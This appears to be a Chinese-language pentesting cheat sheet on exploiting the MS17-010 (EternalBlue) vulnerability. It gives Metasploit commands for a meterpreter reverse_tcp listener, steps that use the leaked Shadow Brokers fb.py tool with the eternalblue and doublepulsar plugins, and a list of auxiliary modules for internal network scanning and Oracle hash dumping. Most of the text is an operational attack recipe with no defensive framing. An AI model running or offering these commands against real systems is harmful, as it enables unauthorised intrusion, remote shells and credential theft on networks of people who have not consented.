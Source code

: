 # Metasploit

*   msf模块利用失败的,msf17010py版本有可能成功

    **利用**

    ```
    msf生成64未得dll        windows/x64/meterpreter/reverse_tcp
    msfconsole   //进入控制台
    use exploit/multi/handler     //使用监听模块
    set payload windows/x64/meterpreter/reverse_tcp  //设置payload
    show options  //查看配置信息
    set lhost   xxxxx     //设置本地ip
    ste lport     xxxx    //设置本地端口
    run   //运行

    进入 Shadow broker-masker/windows/fb.py

    use eternablue  使用eternalblue插件   一路回车
    use doublepulsar 
    ```

#### MS17010利用

&#x20;

辅助模块

`auxiliary/scanner/discovery/arp_sweep #基于arp协议发现内网存活主机这不能通过代理使用`

`auxiliary/scanner/portscan/ack #基于tcp的ack回复进行端口扫描，默认扫描1-10000端口`

`auxiliary/scanner/portscan/tcp      #基于tcp进行端口扫描，默认扫描1-10000端口`

`auxiliary/scanner/discovery/udp_sweep    #基于udp协议发现内网存活主机 auxiliary/scanner/discovery/udp_probe    #基于udp协议发现内网存活主机 auxiliary/scanner/netbios/nbname        #基于netbios协议发现内网存活主机 auxiliary/scanner/ftp/ftp_version       #发现内网ftp服务，基于默认21端口 auxiliary/scanner/ssh/ssh_version       #发现内网ssh服务，基于默认22端口 auxiliary/scanner/telnet/telnet_version   #发现内网telnet服务，基于默认23端口 auxiliary/scanner/dns/dns_amp          #发现dns服务，基于默认53端口 auxiliary/scanner/http/http_version      #发现内网http服务，基于默认80端口 auxiliary/scanner/http/title          #探测内网http服务的标题 auxiliary/scanner/smb/smb_version       #发现内网smb服务，基于默认的445端口 auxiliary/scanner/mssql/mssql_schemadump #发现内网SQLServer服务,基于默认的1433端口`

`auxiliary/scanner/oracle/oracle_hashdump #发现内网oracle服务,基于默认的1521端口`

`auxiliary/scanner/mysql/mysql_version   #发现内网mysql服务，基于默认3306端口 auxiliary/scanner/rdp/rdp_scanner      #发现内网RDP服务，基于默认3389端口 auxiliary/scanner/redis/redis_server    #发现内网Redis服务，基于默认6379端口 auxiliary/scanner/db2/db2_version      #探测内网的db2服务，基于默认的50000端口 auxiliary/scanner/netbios/nbname       #探测内网主机的netbios名字`
